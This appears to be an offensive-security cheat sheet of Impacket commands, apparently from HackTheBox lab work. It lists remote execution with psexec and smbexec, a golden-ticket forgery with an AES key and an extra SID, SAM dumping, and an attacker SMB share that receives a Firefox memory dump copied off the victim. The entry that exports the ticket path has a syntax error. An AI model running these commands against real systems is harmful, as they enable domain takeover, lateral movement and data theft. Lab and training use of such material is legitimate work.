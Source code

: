 https://github.com/fortra/impacket/releases

### MSSQLClient
```bash
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth #To login
```
### Impacket - PSExec
```bash
psexec.py 'user:pass@ipaddr'
```
### Impacket - SMBServer
```bash
smbserver.py -smb2support -username guest -password guest share ./

# Windows Connection
net use x: \\10.10.14.165\share /user:guest guest

# Copy Files
cmd /c "copy firefox.dmp X:\"
```
### Impacket - SMBExec
```bash
impacket-smbexec -k -no-pass -dc-ip 10.10.11.24 CORP.GHOST.HTB/administrator@dc01.ghost.htb
```
### Impacket - TicketConvertor
```bash
ticketConverter.py /PATH/ticket.kirbi ticket.ccache

export=KRB5CCNAME=/PATH/ticket.ccache
```
### Impacket - Ticketer
```bash
impacket-ticketer -aesKey b0eb79f35055af9d61bcbbe8ccae81d98cf63215045f7216ffd1f8e009a75e8d -domain-sid S-1-5-21-2034262909-2733679486-179904498 -extra-sid S-1-5-21-4084500788-938703357-3654145966-519 -domain corp.ghost.htb administrator
```
### Impacket - Samrdump.py
```bash
samrdump.py 10.129.14.128
```


